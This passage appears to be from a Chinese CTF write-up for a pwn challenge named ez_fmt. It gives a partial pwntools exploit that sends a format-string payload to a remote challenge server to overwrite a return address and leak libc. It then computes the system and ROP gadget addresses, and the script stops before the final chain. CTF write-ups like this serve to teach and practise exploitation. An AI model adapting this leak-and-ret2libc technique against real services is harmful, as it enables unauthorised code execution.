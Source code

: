 flag 试了好几次，最后直接找的一个在线加密器解决的

### ez\_fmt

> Easy format string. IP: 47.104.24.40 Port: 1337
> 
> [附件下载](https://pan.baidu.com/s/1YxAkJgxtVQf2Dz9fBdWuXw) 提取码（GAME）[备用下载](https://share.weiyun.com/x4v52Bnd)

格式化字符串 + ret2libc + ROP

格式化字符串偏移是 6

```plain
from pwn import *
import sys
from LibcSearcher import *

context(log_level='debug', arch='amd64', os='linux')

elf_file = './ez_fmt'

elf = ELF(elf_file)

def start():
    if len(sys.argv) == 1:
        p = process(elf_file)
    elif len(sys.argv) == 2:
        if sys.argv[1] == 'debug':
            p = process(elf_file)
            gdb.attach(p)
        if sys.argv[1] == 'remote':
            p = remote('47.104.24.40', '1337')
    return p

p = start()

p.recvuntil(b'There is a gift for you ')
addr_stack_buf = int(p.recvuntil(b'\n', drop=True).decode(), 16)
print(hex(addr_stack_buf))

addr_printf_ret = addr_stack_buf - 0x08

# leak the libc base
# edit the ret of printf
addr_read_got = elf.got['read']
payload = b'A' * 5 + b"%9$hhn" + b'%8$s'
payload = payload.ljust(0x10, b'a')
payload += p64(addr_read_got)
payload += p64(addr_printf_ret)
assert len(payload) <= 0x30
payload = payload.ljust(0x30, b'a')
p.send(payload)
p.recvuntil(b'AAAAA')
addr_read_libc = u64((p.recv(6).ljust(8, b'\x00')))
print(hex(addr_read_libc))

libc = LibcSearcher('read', addr_read_libc)
addr_libc_base = addr_read_libc - libc.dump('read')
addr_system = addr_libc_base + libc.dump('system')
addr_pop_rdi = addr_libc_base + 0x23b6a
addr_ret = addr_libc_base + 0x22679


# offset = [0xe3afe, 0xe3b01, 0xe3b04]
```